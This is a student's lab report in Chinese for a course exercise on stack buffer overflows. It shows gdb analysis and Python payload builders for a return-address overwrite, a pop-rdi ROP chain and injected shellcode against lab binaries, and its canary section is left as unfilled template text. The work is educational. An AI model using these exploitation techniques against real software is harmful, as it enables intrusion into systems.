


# 栈溢出攻击实验
姓名：潘羽
学号：2024201702

## 题目解决思路
先进行反汇编：
```
objdump -d problem1/2/3/4 > problem1/2/3/4.asm
```
然后从main函数开始进行gdb调试，读汇编代码

### Problem 1: 
- **分析**：一开始不太明白、没思路，询问ai后提示"I like ICS"在func1中输出，只要在从func的函数栈帧中下手（因为func函数中有strcpy这一不安全的输入函数），传入可以覆盖返回地址的参数，使之返回到0x401216：func1处即可。重新审视main函数的汇编代码，可以得知一开始传入了main的，命令行参数：%edi是整数类型，表示命令行参数的数量；%rsi是指针类型，指向一个字符串数组，数组中存储了具体的参数内容（即我们需要使用python代码产生的二进制txt文件路径/文件名）。
```asm
  40127e:	83 bd ec fe ff ff 02 	cmpl   $0x2,-0x114(%rbp)
  401285:	74 2d                	je     4012b4 <main+0x5c>
```
如上，只有传入参数是2个的时候main函数主体才可以正常运行。因此直接gdb调试（gdb problem1）
```
(gdb) set args solution1.txt
```
然后逐步ni。想先看一下func1函数里面是什么：
```
(gdb) start
(gdb) set $pc = 0x401216（即func1地址）
(gdb) continue
```
直接到func1处，则可以清楚地看到输出确实为"I like ICS"，这个思路确实是正确的！

- **解决方案**：接下来考虑传入何种参数可以恰好覆盖返回地址：在func函数中，有：
```
401246:	48 8d 45 f8          	lea    -0x8(%rbp),%rax
```
那么strcpy函数会从-0x8(%rbp)处开始向高地址处填入，因而有：
```
rbp + 0x08: 返回地址 <- 我们的攻击目标

rbp + 0x00: 旧的 RBP (8 字节)

rbp - 0x08: 缓冲区起始位置 (8 字节) <- strcpy 从这里开始写入
```
因此
```
攻击方案如下：

构造一个包含 24 个字节的输入文件（Payload）：

前 16 个字节：任意填充字符（如 "A"），用于填满缓冲区并覆盖旧的 RBP。

接下来的 8 个字节：目标地址 0x401216 (func1 的地址)，注意需要使用小端序。
```
python代码如下：
```python
# 比如你发现你可以使用'A'去覆盖8个字节，然后跳转到0x114514地址就可以完成任务，那么你可以这么写你的payload并保存
padding = b"A" * 16
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # 小端地址
payload = padding + func1_address
# Write the payload to a file
with open("solution1.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans.txt")
```
- **结果**：


### Problem 2:
- **分析**：
基本思路同第一题，在func函数返回时进行操作，希望可以返回到func2里面（经过gdb调试验证，func2函数打印的确实是"Yes!I like ICS!"）。观察func2的asm码：
```asm
401222:	89 7d fc             	mov    %edi,-0x4(%rbp)
401225:	81 7d fc f8 03 00 00 	cmpl   $0x3f8,-0x4(%rbp)
```
只有从%edi中取出的值为$0x3f8时才能正常运行func2，因此需要在problem2.asm中找一个合适的函数能对%edi进行修改，发现是<pop_rdi>，因此直接让func函数返回到：
```
4012c7:	5f                   	pop    %rdi
```
再在紧靠着的高地址处写入我们需要的0x3f8，即：
```
arg_value = b"\xf8\x03\x00\x00\x00\x00\x00\x00"
```
因此在pop %rdi后，便已经完成了对%edi的修改，再让<pop_rdi>的栈帧返回到函数func2（地址为0x401216），正常运行即可打印我们需要的语句了~

- **解决方案**：
python代码如下：
```python
padding = b"A" * 16

pop_rdi_addr = b"\xc7\x12\x40\x00\x00\x00\x00\x00"

arg_value = b"\xf8\x03\x00\x00\x00\x00\x00\x00"

func2_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"

payload = padding + pop_rdi_addr + arg_value  + func2_addr

with open("solution2.txt", "wb") as f:
    f.write(payload)
```
- **结果**：


### Problem 3:

- **分析**：
这道题挺难的，提示里说要注意栈地址的变化情况。通过反汇编发现func函数里多了一步操作：它把当前的%rsp存进了一个全局变量saved_rsp中。
```asm
  401368:	48 89 05 a1 21 00 00 	mov    %rax,0x21a1(%rip)        # 403510 <saved_rsp>
```
再看题目给出的代码片段，有一个jmp_xs函数。它会把这个saved_rsp取出来加上0x10然后直接jmp过去。
```asm
  401347:	48 83 45 f8 10       	addq   $0x10,-0x8(%rbp)
  401350:	ff e0                	jmp    *%rax                    # 这里的 %rax 就是 saved_rsp + 0x10
```
经过计算saved_rsp + 0x10恰好指向我们输入的缓冲区开头。既然这题没有限制Nxenabled，且没有像problem2那样现成的传参gadget，最直接的思路就是把返回地址覆盖为0x401334（jmp_xs），然后自己在输入的最开头写一段 Shellcode。只要这段代码能把%edi改成114(即0x72)，再调用func1(地址0x401216) 就能过。

- **解决方案**：
偏移量：缓冲区在rbp-0x20，返回地址在rbp+0x8，总共需要40字节的 Padding。
Payload：最前面放 Shellcode，后面填满A，最后放jmp_xs的地址。

python 代码如下：

```python
shellcode = b"\xbf\x72\x00\x00\x00\x48\xc7\xc0\x16\x12\x40\x00\xff\xd0"

padding = shellcode + b"A" * (40 - len(shellcode))

return_addr = b"\x34\x13\x40\x00\x00\x00\x00\x00"

payload = padding + return_addr

with open("solution3.txt", "wb") as f:
    f.write(payload)
```

- **结果**：



### Problem 4: 
- **分析**：体现canary的保护机制是什么
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

## 思考与总结


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
